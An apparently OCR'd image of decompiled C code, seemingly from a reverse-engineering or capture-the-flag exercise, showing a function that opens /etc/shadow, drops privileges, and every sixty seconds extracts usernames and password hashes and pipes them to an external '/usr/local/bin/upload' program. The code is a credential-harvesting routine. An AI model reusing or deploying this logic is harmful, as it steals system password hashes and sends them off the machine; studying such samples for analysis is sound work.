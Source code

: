 ```c
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __fd = open("/etc/shadow",0);
  __uid = getuid();
  setuid(__uid);
  if (__fd != -1) {
    iVar1 = pipe(&local_1420);
    if (iVar1 == -1) {
      perror("pipe failed");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    while( true ) {
      lseek(__fd,0,0);
      _Var2 = fork();
      if (_Var2 == -1) {
        perror("fork failed");
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      if (_Var2 == 0) break;
      close(local_1420);
      while( true ) {
        sVar6 = read(__fd,local_1018,0x1000);
        if (sVar6 < 1) break;
        local_1478 = local_1018;
        local_1470 = strchr(local_1478,10);
        while (local_1470 != (char *)0x0) {
          local_1418 = 0;
          local_1410 = 0;
          puVar8 = local_1408;
          for (lVar7 = 0x7e; lVar7 != 0; lVar7 = lVar7 + -1) {
            *puVar8 = 0;
            puVar8 = puVar8 + (ulong)bVar9 * -2 + 1;
          }
          *local_1470 = '\0';
          pcVar3 = strchr(local_1478,0x3a);
          *pcVar3 = '\0';
          pcVar4 = strchr(pcVar3 + 1,0x3a);
          *pcVar4 = '\0';
          pcVar5 = strchr(pcVar4 + 1,0x3a);
          *pcVar5 = '\0';
          pcVar3 = strchr(pcVar3 + 1,0x24);
          if (pcVar3 != (char *)0x0) {
            snprintf((char *)&local_1418,0x400,"%s:%s\n",local_1478,pcVar4 + 1);
            __n = strlen((char *)&local_1418);
            write(local_141c,&local_1418,__n);
          }
          local_1478 = local_1470 + 1;
          local_1470 = strchr(local_1478,10);
        }
      }
      close(local_141c);
      wait((void *)0x0);
      pipe(&local_1420);
      sleep(0x3c);
    }
    close(local_141c);
    dup2(local_1420,0);
    execlp("/usr/local/bin/upload",(char *)0x0);
    perror("execlp failed");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
```